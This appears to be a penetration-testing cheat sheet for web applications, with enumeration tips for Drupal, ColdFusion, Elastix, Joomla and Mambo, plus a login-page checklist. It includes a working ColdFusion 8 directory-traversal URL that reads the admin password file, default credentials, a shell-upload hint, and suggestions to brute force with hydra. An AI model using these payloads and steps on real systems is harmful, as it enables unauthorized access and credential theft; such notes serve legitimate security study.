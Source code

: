 ## Drupal

    droopescan scan drupal -u http://example.org/ -t 32

find version 
    
    /CHANGELOG.txt

## Adobe Cold Fusion

Check version

    /CFIDE/adminapi/base.cfc?wsdl

fckeditor Version 8 LFI

    http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

## Elastix

Google the vulnerabilities

default login are 

    admin:admin at /vtigercrm/

able to upload shell in profile-photo

## Joomla

Admin page 

    /administrator

Configuration files

    configuration.php | diagnostics.php | joomla.inc.php | config.inc.php

## Mambo

    configuration.php | config.inc.php

## Login Page

Try common credentials such as admin/admin, admin/password and falafel/falafel.

Determine if you can enumerate usernames based on a verbose error message.

Manually test for SQL injection. If it requires a more complex SQL injection, run SQLMap on it.

If all fails, run hydra to brute force credentials.

View source code

Use default password
